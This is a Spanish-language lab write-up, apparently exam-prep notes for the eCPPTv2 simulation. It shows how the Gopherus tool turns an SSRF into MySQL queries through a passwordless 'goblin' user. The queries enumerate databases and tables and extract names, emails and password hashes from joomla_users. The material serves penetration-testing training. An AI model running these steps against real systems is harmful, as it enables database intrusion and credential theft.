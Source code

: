 ### Uso de Gopherus

Se encontró un archivo de backup en el cual se está haciendo conexión a la base de datos mysql con el usuario “goblin” sin proporcionar contraseña.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 44.png)

Cuando se tiene un escenario en el que hay un SSRF y las credenciales de la base de datos no requiere contraseña, se puede pensar en usar la herramienta Gopherus.

Con la herramienta Gopherus se crearán querys especialmente diseñadas para hacer peticiones a la base de datos y extraer información de ella a partir del SSRF.

Instalación:

```bash
git clone https://github.com/tarunkant/Gopherus
cd Gopherus
./install.sh
```

Uso:

```bash
gopherus --exploit mysql

Give query to execute:
	# Enumerar bases de datos
	SHOW databases;
	# Enumerar tablas de una base de datos
	SHOW tables FROM joomla;
	USE joomla; SHOW tables;
	# Ver información de las columnas de una tabla
	USE joomla; describe joomla_users;
	# Extraer datos de columnas
	USE joomla; SELECT name,username,email,password from joomla_users;
	
--exploit # Indica qué es lo que se quiere explotar (
# mysql, postgress, etc.)
```

Esto creará un petición especial que se insertará en el campo vulnerable a SSRF.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 45.png)

Se puede ver que hay dos bases de datos: “information_schema” y “joomla”, en este caso interesa la de “joomla”.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 46.png)

Nota: Es posible que al enviar la petición, sea necesario recargar varias veces para ver el resultado de la query.

Finalmente se listan los datos de las columnas “name”, “username”, “email” y “password”.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 47.png)
